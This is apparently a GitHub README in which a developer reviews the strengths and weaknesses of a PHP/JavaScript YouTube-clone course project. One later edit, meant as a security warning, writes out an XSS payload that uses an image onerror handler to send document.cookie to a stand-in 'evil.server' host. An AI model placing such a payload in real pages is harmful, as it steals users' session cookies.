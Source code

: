 # youtube-php-noframework-project
PHP/JS project with udemy course - Youtube clone, including API, ajax, frontend, backend, uploads and all sorts of functionalities </br>
course link - https://www.udemy.com/course/youtube-clone/ </br>

# Strengths: </br>
- Uses PDO and bind parameters </br>
- Uses sha512 hash </br>
- Uses sanitizing user input </br>
- Uses validation of user input </br>
- Uses error messages (that are stored in Constants class as public static) with validation functions (the idea of error array displaying all validation errors that became some kind
of standard instead of sloppy code that would display first error found and then if on resubmit this error goes away would show another one - such things used to happen
in the internet back in the day :) ) </br>
- Code is well structured, good OOP, descriptive names of classes and functions and keeping some kind of standard for the whole project </br>
- Uses regular expressions, built in php functions </br>
- Creates an API he accesses by javascript ajax (although I will never understand why backend php developers are so obsessed with using libraries like jQuery here or axios of example -
javascript fetch API can get the job done without introducing external dependencies and times when js used obscure XmlHTTPRequest are long gone...)</br>
- Some really good CSS... Im not CSS-frontend oriented but worth considering using sass and/or separating one huge style.css</br>
- Use of .text() instead of .html() in jQuery section (idk if its worth mentionting, but some people still let users edit innerHTML of the element, which is kind of like schoolar's
checkmate in terms of security) </br> 
- It is really good, really lengthy project, introducing idea of designing, creating YouTube clone, having API and a lot of client-server communication,
 kind of reactive while using just PHP and JS with no frontend framework, really well structured and preserving one style, one well-read convention through the whole project. </br>
 
# Weaknesses: </br>

- Does not provide types while binding parameters</br>
- Binds parameters before declaring a variable so it "shows in red" in code editor</br>
- I do not see any CORS mechanism in api </br>
- No validation in api whether routes are accessed by POST method or some other HTTP verb </br>
- No use of autoloading feature of any kind while having lengthy imports </br>
- No use of any templating engine </br>
- Using exec() and shell_exec() is always a red alert for me </br>
- I always use "filter_input(INPUT_SERVER, 'PHP_SELF', FILTER_SANITIZE_URL);" on PHP_SELF... just like exec(), it is some kind of red alert for me </br>
- Aside frome critique, I cannot expect one course to cover all sorts of topics, including frontend, security and so on... It is lengthy enough as a good learning project
and good enough for me to show it off that Ive completed it </br>
- EDIT: Been going through code again (since I completed the course some time ago and now im just registering my work) and just noticed 
use of sizeof() alias for count()... It is a bad habit bc it cofuses people who know laguages like C/C++ and expect information of memory allocated from such name...
To be honsest, I have no idea what the creators of PHP had in mind creating such a confusing alias. There are a lot of tricky things that exist both in C and PHP - 
some function names, for(;;) loop, printf("%d", printf("Hello world!")), passing parameters by reference like in C++ and so on... So why name something not
related to memory allocation at all sizeof - I dont know. But I believe one should just not use this alias at all. </br>
- EDIT: In this project we used hard-coded default profile picture, but if it was some real project I would probably make sure that in line here: </br>
\<img src='$coverPhotoSrc' class='coverPhoto'\></br>
$coverPhotoSrc variable will never turn into something like: ' onerror="this.src='http://evil.server/exploit.php?'+document.cookie" />. </br>
It is always better to double check everything, especially if it was some real life scenario and not Udemy course project, that much I know...</br>
- EDIT: Again - profile pic is hardcoded path here but it is worth remembering that uploaded pictures should be rather re-processed with
gd library rather than saved as they come... Another thing to watch out </br>



